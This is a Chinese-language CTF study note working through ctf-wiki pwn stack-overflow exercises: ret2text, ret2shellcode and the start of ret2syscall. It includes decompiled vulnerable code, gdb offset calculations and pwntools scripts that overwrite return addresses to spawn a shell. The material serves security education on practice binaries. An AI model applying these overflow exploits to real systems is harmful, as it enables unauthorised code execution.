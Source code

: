 # ctf-wiki pwn刷题



思虑太多就会使人痛苦，入门pwn权当作清晨操练。相信时间，相信新的机遇。

使用seveng0佬的pwn ubuntu16虚拟机做题

## 0. 相关术语

**返回导向编程** (Return Oriented Programming)

小片段 gadgets 通常是以 `ret` 结尾的指令序列

shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。





## 1. 栈溢出

不同虚拟机地址可能不一样，以实际为准



### 1. ret2text

ret2text 即控制程序执行程序本身已有的的代码



```
checksec ./ret2text
[*] '/home/seveng0/Desktop/ret2text'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开启了数据执行保护

打开IDA

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("There is something amazing here, do you know anything?");
  gets(s);
  printf("Maybe I will tell you next time !");
  return 0;
}
```



![image-20250212164119000](C:\Users\21609\Desktop\网安\pwn\ctf-wiki pwn刷题.assets\image-20250212164119000.png)

交叉引用在secure函数处找到

```c
void secure()
{
  unsigned int v0; // eax
  int input; // [esp+18h] [ebp-10h] BYREF
  int secretcode; // [esp+1Ch] [ebp-Ch]

  v0 = time(0);
  srand(v0);
  secretcode = rand();
  __isoc99_scanf(&unk_8048760, &input);
  if ( input == secretcode )
    system("/bin/sh");
}
```



![image-20250212164504728](C:\Users\21609\Desktop\网安\pwn\ctf-wiki pwn刷题.assets\image-20250212164504728.png)

后面需要控制程序跳转到`0x0804863A`

鼠标悬停在s上看到s的偏移`-064h`，故s在`esp+1Ch`处

```assembly
.text:08048648 55                            push    ebp
.text:08048649 89 E5                         mov     ebp, esp
.text:0804864B 83 E4 F0                      and     esp, 0FFFFFFF0h
.text:0804864E 83 C4 80                      add     esp, 0FFFFFF80h ;-128的补码
...
.text:080486A7 8D 44 24 1C                   lea     eax, [esp+80h+s]
.text:080486AB 89 04 24                      mov     [esp], eax   ;s
.text:080486AE E8 AD FD FF FF                call    _gets
```



gdb调试，将断点下在`call _gets`处

```
gdb ./ret2text
b *0x080486AE
r
```



![image-20250212165243793](C:\Users\21609\Desktop\网安\pwn\ctf-wiki pwn刷题.assets\image-20250212165243793.png)



![image-20250212222259410](./ctf-wiki pwn刷题.assets/image-20250212222259410.png)

```assembly
esp为0xffffcfd0
ebp为0xffffd058
s地址：0xffffcfec
s相对于ebp偏移：0xffffd058-0xffffcfec=0x6c
```



最终payload如下：

```python
from pwn import *
p=process('./ret2text')
target=0x804863a
p.sendline(b'A'*(0x6c+4)+p32(target)) #覆盖返回地址 
#虽说栈从高地址向低地址生长
#但字符串，数组等从低地址向高地址覆写
#32位程序中内存以四字节对齐，所以ebp和返回地址都是4字节,0x6c多加4覆盖了ebp，
#后面的p32(target)覆盖了返回地址
p.interactive()
```

![image-20250212214949922](./ctf-wiki pwn刷题.assets/image-20250212214949922.png)



### 2. ret2shellcode

ret2shellcode，即控制程序执行 shellcode 代码。

在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。

**在新版内核当中引入了较为激进的保护策略，程序中通常不再默认有同时具有可写与可执行的段，这使得传统的 ret2shellcode 手法不再能直接完成利用**。



```
checksec ./ret2shell*
[*] '/home/seveng0/Desktop/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

有可读可写可执行段



```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets(s);
  strncpy(buf2, s, 0x64u);
  printf("bye bye ~");
  return 0;
}
```

将s拷贝到buf2，buf2在`.bss:0804A080`

查看一下bss段权限

```bash
gdb ./ret2shell*
b main  #断点下在main函数处
r
vmmap  #查看内存映射
```



![image-20250212220233982](./ctf-wiki pwn刷题.assets/image-20250212220233982.png)



可以看到bss段权限`rwxp`可读，可写，可执行，私有（其它进程不能访问）

那么我们参考上一题，并把返回地址覆写成buf2的地址

```
esp:0xffffcfc0
ebp:0xffffd048
s:esp+0x1c=0xffffcfdc
ebp与s的距离：0x6c
```





```python
from pwn import *
p= process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
#shellcraft.sh()：生成一个调用 /bin/sh 的 Shellcode
#asm()：将汇编代码转换为机器码字节序列
buf2_addr = 0x804a080
p.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))#0x6c+4=112
#将 shellcode 左对齐并填充到 112 字节，不足部分用 b'A' 填充。
p.interactive()
```

![image-20250212222103120](./ctf-wiki pwn刷题.assets/image-20250212222103120.png)



### 3. ret2syscall

ret2syscall，即控制程序执行系统调用，获取 shell。



```bash
checksec rop
[*] '/home/seveng0/Desktop/pwn/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



